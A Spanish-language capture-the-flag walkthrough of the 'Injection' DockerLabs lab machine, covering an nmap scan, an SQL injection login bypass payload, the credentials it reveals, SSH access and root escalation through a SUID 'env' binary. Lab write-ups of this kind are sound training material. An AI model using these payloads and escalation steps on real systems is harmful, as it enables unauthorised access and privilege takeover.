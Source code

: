 # 🖥️ Máquina Injection
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 3 172.17.0.2
```

Este comando enviará solo 3 paquetes ping a la dirección IP designada (172.17.0.2) y luego terminará.

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ Nmap:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 
```

🔎 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso**
- `-sC` Usa **scripts por defecto**
- `--open` Muestra **solo puertos abiertos**
- `-sV` Detecta la **versión de los servicios**
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s**
- `-n` Sin resolución DNS
- `-vvv` Modo muy detallado
- `-Pn` Sin ping al host antes de escanear
- `-oN` Guarda el resultado en la ruta especificada

---

## 📊 Resultado del escaneo

```
Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
...
```

Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

---

## 🌐 Acceso Web

Colocamos la dirección IP `172.17.0.2` en el navegador 🌍. Nos pedirá usuario y contraseña:

📸 *imagen aquí*

---

## 🧨 Ataque de inyección SQL

Probamos un ataque de **inyección SQL**:

```sql
'or 1=1-- - 
```

📸 *imagen aquí*

🔐 Obtuvimos credenciales:

```
user : dylan
contraseña: KJSDFG789FGSDF78
```

📸 *imagen aquí*

---

## 🔐 Conexión SSH

Probamos conectarnos vía SSH:

```bash
ssh dylan@172.17.0.2
# contraseña: KJSDFG789FGSDF78
```

---

# 🧗 Escala de Privilegios

Buscamos binarios con permisos SUID:

```bash
find / -perm -4000 -user root 2>/dev/null
```

📄 Resultado:

```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
...
/usr/bin/env
...
```

📌 El binario `/usr/bin/env` tiene permisos SUID, lo que puede permitir una **escalada de privilegios**.

---

## 🔓 Escalada usando `env`

```bash
./env /bin/sh -p
```

⚠️ Si aparece el error:

```
-bash: ./env: No such file or directory
```

🔧 La solución es ejecutar el comando desde el directorio correcto:

```bash
cd /usr/bin
./env /bin/sh -p
# whoami
root
```
